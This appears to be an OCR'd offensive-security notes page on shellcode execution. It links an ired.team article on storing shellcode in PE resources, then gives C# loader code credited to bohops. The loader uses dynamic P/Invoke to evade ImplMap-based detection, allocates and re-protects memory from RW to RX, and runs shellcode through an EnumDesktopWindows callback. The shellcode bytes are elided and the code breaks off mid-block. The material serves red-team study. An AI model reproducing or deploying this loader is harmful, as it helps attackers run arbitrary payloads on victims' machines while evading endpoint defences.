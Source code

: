 - ### ShellCode stored in resources
	https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources 
- ### P/Invoke
```cs
// Dynamic PInvoke: Leverages DefinePInvokeMethod() for Instrumentation

// Features: ImplMap Table Evasion, RW/RX Memory Allocation/Manipulation, EnumDesktopWindows() callback for shellcode execution

// Reference: https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/

// Author: bohops
using System;

using System.Runtime.InteropServices;

using System.Reflection;

using System.Reflection.Emit;

namespace ShellcodeLoader

{

  class Program

  {

    static void Main(string[] args)

    {

      byte[] shellcode = {
        0xe8,
        0x80,
        …
      };

      IntPtr funcAddr = VirtualAlloc(

        IntPtr.Zero,

        (uint) shellcode.Length,

        0x1000,

        0x04);

      Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);

      EnumDesktopWindowsDelegate dwDelegate = (EnumDesktopWindowsDelegate) Marshal.GetDelegateForFunctionPointer(funcAddr, typeof (EnumDesktopWindowsDelegate));

      UInt32 threadID = GetCurrentThreadId();

      IntPtr threadDesktop = GetThreadDesktop(threadID);

      UInt32 flOldProtect = 0;

      if (VirtualProtect(funcAddr, (UIntPtr) shellcode.Length, 0x20, ref flOldProtect))

      {

```
